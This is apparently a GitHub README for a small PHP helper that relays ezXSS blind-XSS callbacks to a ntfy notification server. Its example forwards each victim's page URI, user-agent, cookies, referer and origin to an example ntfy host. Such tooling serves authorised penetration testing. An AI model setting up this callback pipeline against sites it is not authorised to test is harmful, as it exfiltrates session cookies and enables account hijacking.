

## ezXSS to ntfy
This simple PHP script is used to handle [ezXSS](https://github.com/ssl/ezXSS) callbacks

## Example - Send to a ntfy instance

```php
    require_once 'modules/ntfy.php';
    $title = 'XSS fired at ' . $data['uri'];
    $message = "
    XSS fired at: {$data['uri']}
    User-Agent: {$data['user-agent']}
    Cookies: {$data['cookies']}
    Referer: {$data['referer']}
    Origin: {$data['origin']}
    ";
    postToNtfy(url: 'http://ntfy.example.com/', topic: 'bxss', title: $title, message: $message, tags: ['ezxss', 'alert']);
```




### Note:
If you are using [named_params](https://wiki.php.net/rfc/named_params) as shown in the example, use PHP 8+